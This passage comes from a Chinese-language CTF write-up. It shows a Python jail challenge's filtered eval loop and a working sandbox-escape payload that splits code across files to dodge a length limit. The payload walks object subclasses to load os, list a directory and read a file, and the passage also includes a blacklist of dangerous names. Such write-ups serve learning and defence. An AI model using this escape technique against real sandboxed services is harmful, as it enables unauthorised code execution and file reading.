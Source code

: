 ```bash
    "__dict__",
    "._module",
    "builtins",
    "breakpoint",
    "import",
]

def my_filter(input_code):
    for x in blacklist_words_var_name_fake_in_local_real_in_remote:
        if x in input_code:
            return False
    return True

while '{' in input_code and '}' in input_code and input_code.isascii() and my_filter(input_code) and "eval" not in input_code and len(input_code) < 65:
    input_code = eval(f"f'{input_code}'")
else:
    print("Player! Please obey the filter rules which I set!")
```

海象表达式，通过写文件绕过长度限制

exp:

```bash
{open("A","w").write("{(a:=().__cla"+"ss__.__bases__[0]")}
{open("A","a").write(",open(chr(66)).read())[1]}")}
{open("B","w").write("{(a:=a.__subcl"+"asses__()[104]()")}
{open("B","a").write(",open(chr(67)).read())[1]}")}
{open("C","w").write("{(a:=a.load_mo"+"dule")}
{open("C","a").write(",open(chr(68)).read())[1]}")}
{open("D","w").write("{(a:=a(chr(111)+chr(115))")}
{open("D","a").write(",open(chr(69)).read())[1]}")}
{open("E","w").write("{(a:=a.listd"+"ir()[6]")}
{open("E","a").write(",open(chr(70)).read())[1]}")}
{open("F","w").write("{print(open(a).read())}")}
{(my_filter:=lambda x:True,open("A").read())[1]}

print(open(().__class__.__bases__[0].__subclasses__()[104]().load_module(chr(111)+chr(115)).listdir()[6]).read())
```

其实还可以直接把 `my_filter` `len` 这些函数给覆盖掉，直接绕过

### ezfuzz

> 以下任一个都可以
> 
> nc 101.200.122.251 12199
> 
> nc 101.200.122.251 12188
> 
> nc 101.200.122.251 12177
> 
> nc 120.24.69.11 12199
> 
> [附件下载](https://pan.baidu.com/s/1ypdoeaeWETKQXYyQb0XcTw) 提取码（GAME）[备用下载](https://share.weiyun.com/8Anohkp7)

